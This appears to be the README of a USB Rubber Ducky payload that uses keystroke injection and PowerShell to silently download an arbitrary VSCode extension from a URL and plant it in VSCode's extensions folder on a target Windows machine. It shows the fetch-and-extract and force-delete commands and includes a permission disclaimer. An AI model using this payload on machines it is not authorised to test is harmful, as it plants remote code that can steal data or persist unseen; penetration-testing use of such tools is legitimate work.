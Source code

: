 # Install Any Arbitrary VSCode Extension

This DuckyScript script is designed to automate the installation of any arbitrary Visual Studio Code (VSCode) extension on Windows 10. It performs the following tasks:

1. Removes any pre-existing version of the extension (if applicable).
2. Downloads a ZIP archive of a VSCode extension.
3. Extracts the extension to the correct VSCode extensions folder.

The script makes use of PowerShell to manage file paths and execute commands necessary for the installation process. The user must provide the name of the extension folder and the link to the ZIP archive containing the extension.

## First Of All!

Installing Arbotrary Visual Studio Code (VSCode) extensions can pose cybersecurity risks because extensions, often developed by third parties, have access to critical functionalities of the editor and the operating system. A malicious extension could execute harmful code, access local files, or exfiltrate sensitive data without the user's knowledge. Additionally, if extensions are not from trusted sources or are not regularly updated, they may contain vulnerabilities that attackers can exploit, compromising the security of both the system and the entire development environment.

So...
- Before doing these tests make sure you have full permission from the owner of the computer in case it is not you.
- Always check the source and source code before doing this
- If even one line of code is not clear to you, you should not proceed at all because it takes only a little to do damage.

## Features

- Detects Windows passively through [PASSIVE_WINDOWS_DETECT](https://github.com/hak5/usbrubberducky-payloads/blob/master/payloads/extensions/passive_windows_detect.txt) by Hak5.
- Installs a VSCode extension by downloading a ZIP file and extracting it to the correct location.
- Removes any previous version of the extension.
- Completely automated, requiring no manual intervention once the script is executed.

## Requirements

- **Target OS**: Windows 10/11
- **VSCode Path**: The script assumes that VSCode is installed in its default location. If it is installed in a different location, the paths in the script may need to be updated.
- **Compilation**: Make sure that the extension you are going to install has the out folder inside, that is, the folder that is generated as a result of compilation. Without this folder the extension cannot be loaded properly.
- **Internet Connection**: This is mandatory in case you want to download the archive from the Internet, whereas if you want to download from a server in the intranet you only need to be connected to the local network. This basically depends on the individual case....

## Usage

### DuckyScript Configuration

Before running the script, make sure to configure the following two variables in the script:

1. `#EXTENSION_NAME`: Replace this with the name of the folder where the extension will be installed.
    ```plaintext
    DEFINE #EXTENSION_NAME example
    ```
   Example: If the extension folder name is `DuckyScriptCookbook`, then replace `example` with `DuckyScriptCookbook`.

2. `#ARCHIVE_LINK`: Replace this with the actual URL to the ZIP file of the VSCode extension you want to install.
    ```plaintext
    DEFINE #ARCHIVE_LINK https://example.com/path/to/archive.zip
    ```

### PowerShell Commands Breakdown

- **Detecting and Removing Previous Extension**: The script checks if an official version of the extension is already installed and removes it:
    ```powershell
    $extensionsPath = "$env:USERPROFILE\AppData\Local\Programs\Microsoft VS Code\resources\app\extensions\#EXTENSION_NAME"
    if (Test-Path -Path $extensionsPath -PathType Container) {
        Remove-Item -Recurse -Force -Path $extensionsPath
    }
    ```

- **Downloading and Extracting the New Extension**: The script downloads the extension from the link provided inside a temporary folder and extracts it inside the official (the default) VSCode extensions folder:
    ```powershell
    $url = "#ARCHIVE_LINK"
    $downloadPath = "$env:TEMP\#EXTENSION_NAME.zip"
    $extractPath = "$env:USERPROFILE\AppData\Local\Programs\Microsoft VS Code\resources\app\extensions\#EXTENSION_NAME"
    Invoke-WebRequest -Uri $url -OutFile $downloadPath
    if (Test-Path -Path $downloadPath) {
        Expand-Archive -Path $downloadPath -DestinationPath $extractPath -Force
        Remove-Item -Path $downloadPath -Force
    }
    ```
  
## Notes
- Ensure that the ZIP file is structured properly (i.e., it contains all necessary files for the extension) before attempting to install.
- Make sure that PowerShell is available on the target machine.
- This script is intended for Windows 10/11 systems. Compatibility with other versions of Windows has not been tested.

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
